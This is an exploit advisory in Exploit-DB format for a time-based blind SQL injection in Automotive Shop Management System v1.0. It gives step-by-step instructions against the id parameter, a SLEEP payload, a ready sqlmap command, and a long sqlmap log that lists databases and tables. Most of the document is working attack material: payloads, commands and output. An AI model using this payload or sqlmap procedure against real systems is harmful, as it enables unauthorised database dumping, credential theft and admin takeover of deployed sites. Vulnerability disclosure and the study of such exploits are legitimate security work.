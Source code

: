 # Exploit Title: Automotive Shop Management System v1.0 - Blind SQL Injection
# Exploit Author: NS Kumar (n1_x)
# Date: May 6, 2022
# Vendor Homepage: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/asms_0.zip
# Tested on: Parrot Linux, Apache, Mysql
# Vendor: oretnom23
# Version: v1.0
# Exploit Description:
# Automotive Shop Management System v1.0 suffers from blind SQL Injection Vulnerability allowing remote attackers to dump all database credential and gain admin access(privilege escalation). 

---------------------------------------- To Exploit ---------------------------------------------------------

Step 1: Login as a staff user.

Step 2: Goto Inventory page click action and select view product, you can see url like
				http://localhost/asms/admin/?page=inventory/view_details&id=7

Step 3: The id parameter is the vulnerable one. put the payload '+(select*from(select(sleep(5)))a)+' or copy the url send it to the sqlmap.

step 4: sqlmap query : sqlmap -u http://localhost/asms/admin/?page=inventory/view_details&id=7 --batch --dbs

step 5: You can Enumerate all database credentials.

--------------------------------------------------------------------------------------------------------------

# Sample Sqlmap log:

	sqlmap identified the following injection point(s) with a total of 133 HTTP(s) requests:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: Apache 2.4.52, PHP 8.1.2
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	sqlmap resumed the following injection point(s) from stored session:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: PHP 8.1.2, Apache 2.4.52
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
available databases [16]:
[*] information_schema
[*] LoginSystem
[*] mims
[*] mysql
[*] asms_db
[*] omps_db
[*] performance_schema
[*] phpmyadmin

---
	sqlmap resumed the following injection point(s) from stored session:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: PHP 8.1.2, Apache 2.4.52
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	sqlmap resumed the following injection point(s) from stored session:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: PHP 8.1.2, Apache 2.4.52
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	sqlmap resumed the following injection point(s) from stored session:
---
	Parameter: id (GET)
    	Type: time-based blind
    	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    	Payload: page=products/view_details&id=1' AND (SELECT 1875 FROM (SELECT(SLEEP(5)))WrPn) AND 'nDbG'='nDbG
---
	web application technology: PHP 8.1.2, Apache 2.4.52
	back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
	Database: omps_db
	Table: category_list
	[9 entries]

[18:41:24] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.2, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:41:24] [INFO] fetching tables for database: 'asms_db'
[18:41:25] [INFO] resumed: 'inventory_list'
[18:41:25] [INFO] resumed: 'mechanic_list'
[18:41:25] [INFO] resumed: 'product_list'
[18:41:25] [INFO] resumed: 'service_list'
[18:41:25] [INFO] resumed: 'system_info'
[18:41:25] [INFO] resumed: 'transaction_list'
[18:41:25] [INFO] resumed: 'transaction_products'
[18:41:25] [INFO] resumed: 'transaction_services'
[18:41:25] [INFO] resumed: 'users'
Database: asms_db                                                                                                                                    
[9 tables]
+----------------------+
| inventory_list       |
| mechanic_list        |
| product_list         |
| service_list         |
| system_info          |
| transaction_list     |
| transaction_products |
| transaction_services |
| users                |
+----------------------+
---------+--------+-------------+-----------------------------------------------------+---------------------+---------------------+


